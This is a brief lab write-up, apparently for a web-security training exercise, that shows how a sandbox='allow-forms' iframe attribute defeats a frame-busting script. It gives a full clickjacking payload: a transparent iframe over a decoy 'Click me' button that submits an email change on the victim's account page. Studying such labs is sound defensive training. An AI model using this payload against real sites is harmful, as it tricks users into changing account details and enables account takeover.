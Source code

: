 # Lab: Clickjacking with a frame buster script

Same as before, but with sandbox attribute:
`<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>`

```
<style>
    iframe {
        position:relative;
        width:700px;
        height:600px;
        opacity:0.0001;
        z-index:2;
        }
    div {
        position:absolute;
        top:500px;
        left:60px;
        z-index:1;
        }
</style>
<div>Click me</div>
<iframe src="https://ac2b1f7b1e4cc191c021235a00cf0018.web-security-academy.net/my-account?email=bad@bad.com" sandbox="allow-forms"></iframe>
```